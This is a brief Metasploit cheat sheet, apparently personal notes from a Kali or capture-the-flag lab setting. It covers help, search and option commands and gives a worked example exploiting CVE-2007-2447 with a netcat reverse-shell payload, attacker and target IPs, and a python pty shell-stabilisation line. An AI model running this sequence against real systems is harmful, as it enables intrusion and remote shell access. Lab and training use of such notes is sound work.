 # Metasploit Framework
```
/usr/share/kali-menu/helper-scripts/metasploit-framework.sh
```

## Getting Help on Commands
```
msf6> help
```

## Searching for Exploits
```
msf6> search <term>
```

## Getting options
```
show options
```

## Common Commands
```
set RHOST <ip_address>
set LHOST <ip_address>
set RPORT <port_number>
set LPORT <port_number>
```

## Example
```
search CVE-2007-2447
use 0
set payload cmd/unix/reverse_netcat
set LHOST 10.10.14.12
set RHOST 10.10.10.3
set RPORT 445
```

## Shell Stabalization
```
python -c 'import pty; pty.spawn("bash")'
```